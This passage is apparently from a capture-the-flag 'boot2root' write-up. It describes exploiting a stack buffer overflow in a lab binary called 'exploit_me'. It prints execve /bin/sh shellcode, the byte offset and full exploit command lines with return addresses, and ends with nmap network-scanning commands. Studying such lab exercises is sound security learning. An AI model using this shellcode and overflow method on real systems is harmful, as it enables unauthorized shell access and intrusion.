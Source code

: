 ![](https://github.com/Gharbaoui/pictures/tree/master/boot2root/write2pics/29.png)
![](https://github.com/Gharbaoui/pictures/tree/master/boot2root/write2pics/30.png)

As you can see, there’s a gap of 136 bytes between our input and the point where we will start overriding.
If you notice different addresses, We believe that’s just due to the environment variables that GDB adds,
so don’t worry about it.

So let's input

```sh
gdb --args ./exploit_me $(python -c "print 136*'a' + 'ebpE' + 'adrs'")
```

![](https://github.com/Gharbaoui/pictures/tree/master/boot2root/write2pics/31.png)

```sh
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

We just took it from rainfall project

First attempt

```sh
./exploit_me $(python -c  'print("\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + 106*"a" + 4*"b" + "\x30\xf6\xff\xbf")' )
```

It's not working, but it is functioning in GDB, which is strange. This is often because the input
can influence some aspects of the stack. To investigate further, We used `ltrace` to check it
and adjust the address accordingly.

![](https://github.com/Gharbaoui/pictures/tree/master/boot2root/write2pics/32.png)

```sh
./exploit_me $(python -c  'print("\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + 115*"a" + 4*"b" + "\x50\xf6\xff\xbf")' )
```

### DONE
![](https://github.com/Gharbaoui/pictures/tree/master/boot2root/write2pics/33.png)

#### Steps
#### Common With Writeup1
#### IP Discovery

```sh
ip addr show
nmap 192.168.100.0/24
nmap -sT -p 80,443 192.168.100.0/24
```

#### Subpages
